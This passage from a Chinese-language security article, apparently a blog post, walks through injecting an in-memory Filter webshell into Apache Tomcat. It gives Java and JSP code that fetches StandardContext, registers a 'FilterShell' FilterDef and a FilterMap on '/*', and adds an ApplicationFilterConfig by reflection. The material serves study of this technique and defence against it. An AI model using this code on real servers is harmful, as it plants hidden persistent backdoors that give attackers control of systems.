 ```
org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
org.apache.catalina.webresources.StandardRoot standardroot = (org.apache.catalina.webresources.StandardRoot) webappClassLoaderBase.getResources();
org.apache.catalina.core.StandardContext standardContext = standardroot.getContext();
```

4. 向 filterMaps 添加 url 映射关系

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1JE5cOCkCYnULX4S1UfhA5Pmh4hvmzNaD6Sdfn65jmocHgWUcsmk7dg/640?wx_fmt=png)

图 19  StandardContext#addFilterMap 及 addFilterDef 方法  

  在 standardContext 类中已提供 addFilterMap 方法，同时关注到 this.validateFilterMap() 方法，跟进查看

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1O7qmjnVKbHTiaVkKZEJO2azUzicHxqr5SVxbmbtnburhlmrjQUeib0XNg/640?wx_fmt=png)

图 20  validateFilterMap() 方法细节  

  该方法会在当前 standardContext 实例中的 filterDefs 检查是否存在所添加的 filterName，因此我们需先往 standardContext.filterDefs 中添加我们的 filterDef，standardContext 类提供了 addFilterDef 方法可供调用。

```
// 添加filterDef，先前已注入恶意Filter类，可调用Class.forName()获取
javax.servlet.Filter filterShell = (javax.servlet.Filter) Class.forName("FilterShell").newInstance();
org.apache.tomcat.util.descriptor.web.FilterDef filterDef = new org.apache.tomcat.util.descriptor.web.FilterDef();
filterDef.setFilterName("Filtershell");//可自行命名
filterDef.setFilter(filterShell);
standardContext.addFilterDef(filterDef);
standardContext.addFilterMap(filterMap);

// 实例化filterMap，filterMap#setFilterName()和filterMap#addURLPattern()都是public方法
org.apache.tomcat.util.descriptor.web.FilterMap filterMap = new org.apache.tomcat.util.descriptor.web.FilterMap();
filterMap.setFilterName("Filtershell");
filterMap.addURLPattern("/*");
```

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1TDibNAfCWicxZGldU7w5iaT8Xwqtu9QTTibrCNiaL8GFKD3AOkxIkNYAQwQ/640?wx_fmt=png)

图 21  FilterMap#setFilterName 及 addURLPattern 方法  

5. 实例化 ApplicationFilterConfig，向 filterConfigs 添加 <String, ApplicationFilterConfig>

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1C6F6htHZict0CPufLiaQaq4F9VSVdibbjCdZ5KUcuicZtDc2mMNRYCWj1A/640?wx_fmt=png)

图 22  ApplicationFilterConfig 类

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1VWvG8LAoymPwVQN7EGYuzL8efPHR1ric9KTEHeFe2t9ibNFfgcYJ6hIA/640?wx_fmt=png)

图 23  filterConfigs 变量

```
<%
// 反射获取filterConfigs 
java.lang.reflect.Field filterConfigsF = standardContext.getClass().getDeclaredField("filterConfigs");
filterConfigsF.setAccessible(true);
java.util.Map filterConfigs = (java.util.Map) filterConfigsF.get(standardContext);

// 由于ApplicationFilterConfig经Final修饰，且构造方法为静态方法，无法通过new实例化，需通过反射获取ApplicationFilterConfig构造方法并实例化后添加入filterConfigs
java.lang.reflect.Constructor constructor = org.apache.catalina.core.ApplicationFilterConfig.class.getDeclaredConstructors()[0];
constructor.setAccessible(true);
filterConfigs.put("Filtershell", constructor.newInstance(standardContext, filterDef));
```